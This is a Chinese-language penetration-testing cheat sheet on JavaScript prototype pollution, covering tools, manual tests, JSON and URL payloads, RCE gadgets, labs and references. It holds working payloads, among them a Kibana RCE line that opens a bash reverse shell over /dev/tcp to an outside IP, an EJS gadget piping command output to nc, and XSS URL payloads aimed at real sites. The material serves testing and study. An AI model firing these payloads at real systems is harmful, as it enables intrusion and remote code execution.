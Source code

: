 # 原型污染

> 原型污染是一种在JavaScript中发生的漏洞类型，当`Object.prototype`的属性被修改时就会出现这种情况。这尤其危险，因为JavaScript对象是动态的，我们可以在任何时候向它们添加属性。此外，JavaScript中的几乎所有对象都继承自`Object.prototype`，使其成为一个潜在的攻击向量。

## 概述

* [工具](#工具)
* [方法论](#方法论)
    * [示例](#示例)
    * [手动测试](#手动测试)
    * [通过JSON输入进行原型污染](#通过json输入进行原型污染)
    * [URL中的原型污染](#url中的原型污染)
    * [原型污染的有效载荷](#原型污染的有效载荷)
    * [原型污染的小工具](#原型污染的小工具)
* [实验室](#实验室)
* [参考文献](#参考文献)

## 工具

* [yeswehack/pp-finder](https://github.com/yeswehack/pp-finder) - 帮助你找到用于原型污染利用的小工具
* [yuske/silent-spring](https://github.com/yuske/silent-spring) - Node.js中因原型污染导致远程代码执行
* [yuske/server-side-prototype-pollution](https://github.com/yuske/server-side-prototype-pollution) - Node.js核心代码和第三方NPM包中的服务端原型污染小工具
* [BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution) - 原型污染和有用的脚本小工具
* [portswigger/server-side-prototype-pollution](https://github.com/portswigger/server-side-prototype-pollution) - 检测原型污染漏洞的Burp Suite扩展
* [msrkp/PPScan](https://github.com/msrkp/PPScan) - 客户端原型污染扫描器

## 方法论

在JavaScript中，原型允许对象从其他对象继承特性。如果攻击者能够添加或修改`Object.prototype`的属性，他们实际上可以影响所有继承该原型的对象，可能导致各种安全风险。

```js
var myDog = new Dog();
```

```js
// 指向函数 "Dog"
myDog.constructor;
```

```js
// 指向 "Dog" 的类定义
myDog.constructor.prototype;
myDog.__proto__;
myDog["__proto__"];
```

### 示例

* 想象一下一个应用程序使用一个对象来维护配置设置，如下所示：

    ```js
    let config = {
        isAdmin: false
    };
    ```

* 攻击者可能能够向`Object.prototype`添加`isAdmin`属性，如下所示：

    ```js
    Object.prototype.isAdmin = true;
    ```

### 手动测试

* ExpressJS: `{ "__proto__":{"parameterLimit":1}}` + GET请求中的至少两个参数，其中至少一个必须反映在响应中。
* ExpressJS: `{ "__proto__":{"ignoreQueryPrefix":true}}` + `??foo=bar`
* ExpressJS: `{ "__proto__":{"allowDots":true}}` + `?foo.bar=baz`
* 修改JSON响应的填充：`{ "__proto__":{"json spaces":" "}}` + `{"foo":"bar"}`，服务器应返回`{"foo": "bar"}`
* 修改CORS头响应：`{ "__proto__":{"exposedHeaders":["foo"]}}`，服务器应返回头`Access-Control-Expose-Headers`。
* 修改状态码：`{ "__proto__":{"status":510}}`

### 通过JSON输入进行原型污染

你可以通过魔术属性`__proto__`访问任何对象的原型。
JavaScript中的`JSON.parse()`函数用于解析JSON字符串并将其转换为JavaScript对象。通常这是一个容易发生原型污染的源函数。

```js
{
    "__proto__": {
        "evilProperty": "evilPayload"
    }
}
```

NodeJS异步有效载荷。

```js
{
  "__proto__": {
    "argv0":"node",
    "shell":"node",
    "NODE_OPTIONS":"--inspect=payload\"\".oastify\"\".com"
  }
}
```

通过`constructor`属性污染原型。

```js
{
    "constructor": {
        "prototype": {
            "foo": "bar",
            "json spaces": 10
        }
    }
}
```

### URL中的原型污染

在野外发现的原型污染有效载荷示例。

```ps1
https://victim.com/#a=b&__proto__[admin]=1
https://example.com/#__proto__[xxx]=alert(1)
http://server/servicedesk/customer/user/signup?__proto__.preventDefault.__proto__.handleObj.__proto__.delegateTarget=%3Cimg/src/onerror=alert(1)%3E
https://www.apple.com/shop/buy-watch/apple-watch?__proto__[src]=image&__proto__[onerror]=alert(1)
https://www.apple.com/shop/buy-watch/apple-watch?a[constructor][prototype]=image&a[constructor][prototype][onerror]=alert(1)
```

### 原型污染利用

根据原型污染是在客户端（CSPP）还是服务器端（SSPP）执行，影响将会有所不同。

* 远程命令执行：[Kibana中的RCE（CVE-2019-7609）](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)

    ```js
    .es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
    .props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
    ```

* 远程命令执行：[使用EJS小工具的RCE](https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce)

    ```js
    {
        "__proto__": {
            "client": 1,
            "escapeFunction": "JSON.stringify; process.mainModule.require('child_process').exec('id | nc localhost 4444')"
        }
    }
    ```

* 反射型XSS：[通过Wistia嵌入代码在www.hackerone.com上的反射型XSS - #986386](https://hackerone.com/reports/986386)
* 客户端绕过：[原型污染——绕过客户端HTML过滤器](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)
* 拒绝服务

### 原型污染有效载荷

```js
Object.__proto__["evilProperty"]="evilPayload"
Object.__proto__.evilProperty="evilPayload"
Object.constructor.prototype.evilProperty="evilPayload"
Object.constructor["prototype"]["evilProperty"]="evilPayload"
{"__proto__": {"evilProperty": "evilPayload"}}
{"__proto__.name":"test"}
x[__proto__][abaeead] = abaeead
x.__proto__.edcbcab = edcbcab
__proto__[eedffcb] = eedffcb
__proto__.baaebfc = baaebfc
?__proto__[test]=test
```

### 原型污染小工具

在漏洞上下文中，“小工具”通常指的是在攻击期间可以被利用或操作的代码或功能。当我们提到“原型污染小工具”时，我们指的是应用程序中易受攻击或可以通过原型污染攻击利用的具体代码路径、函数或功能。

要么使用[yeswehack/pp-finder](https://github.com/yeswehack/pp-finder)的部分源代码创建自己的小工具，要么尝试使用已发现的小工具[ yuske/server-side-prototype-pollution](https://github.com/yuske/server-side-prototype-pollution) / [BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution)。

## 实验室

* [YesWeHack dojo - 原型污染](https://dojo-yeswehack.com/XSS/Training/Prototype-Pollution)
* [PortSwigger - 原型污染](https://portswigger.net/web-security/all-labs#prototype-pollution)

## 参考文献

* [渗透测试人员指南 - 原型污染攻击 - Harsh Bothra - 2023年1月2日](https://www.cobalt.io/blog/a-pentesters-guide-to-prototype-pollution-attacks)
* [净化互联网的故事 - 在野外利用客户端原型污染 - s1r1us - 2021年9月28日](https://blog.s1r1us.ninja/research/PP)
* [检测服务端原型污染 - Daniel Thatcher - 2023年2月15日](https://www.intruder.io/research/server-side-prototype-pollution)
* [利用原型污染 - Kibana中的RCE（CVE-2019-7609） - Michał Bentkowski - 2019年10月30日](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)
* [主题演讲 | 服务端原型污染：无DoS的黑盒检测 - Gareth Heyes - 2023年3月27日](https://youtu.be/LD-KcuKM_0M)
* [NodeJS - \_\_proto\_\_ 和原型污染 - HackTricks - 2024年7月19日](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution)
* [原型污染 - PortSwigger - 2022年11月10日](https://portswigger.net/web-security/prototype-pollution)
* [原型污染 - Snyk - 2023年8月19日](https://learn.snyk.io/lessons/prototype-pollution/javascript/)
* [原型污染和绕过客户端HTML过滤器 - Michał Bentkowski - 2020年8月18日](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)
* [原型污染及其位置 - BitK & SakiiR - 2023年8月14日](https://youtu.be/mwpH9DF_RDA)
* [NodeJS中的原型污染攻击 - Olivier Arteau - 2018年5月16日](https://github.com/HoLyVieR/prototype-pollution-nsec18/blob/master/paper/JavaScript_prototype_pollution_attack_in_NodeJS.pdf)
* [NodeJS应用中的原型污染攻击 - Olivier Arteau - 2018年10月3日](https://youtu.be/LUsiFV3dsK8)
* [原型污染导致RCE：到处都是小工具 - Mikhail Shcherbakov - 2023年9月29日](https://youtu.be/v5dq80S1WF4)
* [服务端原型污染，如何检测和利用 - BitK - 2023年2月18日](http://web.archive.org/web/20230218081534/https://blog.yeswehack.com/talent-development/server-side-prototype-pollution-how-to-detect-and-exploit/)
* [服务端原型污染：无DoS的黑盒检测 - Gareth Heyes - 2023年2月15日](https://portswigger.net/research/server-side-prototype-pollution)